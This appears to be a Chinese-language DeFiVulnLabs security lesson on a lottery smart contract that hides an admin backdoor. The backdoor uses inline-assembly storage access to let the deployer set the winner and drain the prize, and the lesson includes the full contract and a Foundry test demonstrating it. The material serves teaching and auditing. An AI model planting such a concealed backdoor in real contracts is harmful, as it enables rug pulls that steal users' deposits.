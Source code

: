 # 合约中隐藏的后门

[Backdoor-assembly.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Backdoor-assembly.sol)  

**名称：** 合约中隐藏后门漏洞  

**描述：**   
在这份合约中，一个看似公平的“LotteryGame”合约被巧妙地设计为允许合约部署者/管理员拥有隐藏特权。  
这是通过使用汇编级的访问来存储变量，其中一个“referee”函数被设计为提供了一个管理后门。  
“pickWinner”函数似乎是随机选择一个赢家，但实际上它允许管理员设置赢家。  
这绕过了通常的访问控制，可以被未经授权的用户用来从奖池中提取资金，类似于rug pull的操作。  

攻击者可以通过编写内联汇编来操纵智能合约，以实现后门功能。任何敏感的参数都可以随时被更改。  

**场景：**  
抽奖游戏：任何人都可以调用pickWinner函数，如果你幸运的话，就能获得奖金。  
参考JST合约的后门。许多rugged的合约都有类似的模式。
合约中似乎没有setWinner函数，管理员如何进行rug操作呢？  

**LotteryGame合约：**  
```solidity
contract LotteryGame {
    uint256 public prize = 1000;
    address public winner;
    address public admin = msg.sender;

    modifier safeCheck() {
        if (msg.sender == referee()) {
            _;
        } else {
            getkWinner();
        }
    }

    function referee() internal view returns (address user) {
        assembly {
            //读取存储在插槽2上的管理员地址
            user := sload(2)
        }
    }

    function pickWinner(address random) public safeCheck {
        assembly {
            // 管理员后门，可以设置赢家地址
            sstore(1, random)
        }
    }

    function getkWinner() public view returns (address) {
        console.log("Current winner: ", winner);
        return winner;
    }
}
```
**如何测试：**  
forge test --contracts src/test/**Backdoor-assembly.sol** -vvvv



```solidity
// 定义一个名为 testBackdoorCall 的公共函数
function testBackdoorCall() public {
    // 声明两个地址，alice和bob，并将它们的值设置为分别从vm.addr(1)和vm.addr(2)的地址。
    address alice = vm.addr(1);
    address bob = vm.addr(2);

    // 部署LotteryGame合约的新实例，并将引用存储在LotteryGameContract变量中。
    LotteryGameContract = new LotteryGame();

    // 打印一条消息，指示Alice将调用pickWinner函数，但她实际上不会是赢家。
    console.log("Alice performs pickWinner, of course she will not be a winner");

    // 调用vm的prank函数，以Alice的地址作为参数，暗示可能进行一些操作。
    vm.prank(alice);

    // 调用LotteryGameContract的pickWinner函数，将Alice的地址作为参数传递。
    LotteryGameContract.pickWinner(address(alice));

    // 在pickWinner函数调用后，打印当前抽奖奖金的金额。
    console.log("Prize: ", LotteryGameContract.prize());

    // 打印一条消息，表示管理员将设置赢家以取走奖金。
    console.log("Now, admin sets the winner to drain out the prize.");

    // 再次调用LotteryGameContract的pickWinner函数，但这次将 Bob的地址作为参数传递。。
    LotteryGameContract.pickWinner(address(bob));

    // 打印管理员通过操纵设置的赢家地址。
    console.log("Admin manipulated winner: ", LotteryGameContract.winner());
```
**红框：** 恶意设置的赢家可以中奖。
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fc89ca10c-c526-479d-83f5-a7f798142b42%2FUntitled.png?table=block&id=65b900de-4ff0-4ffa-8685-071dd4112db5&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)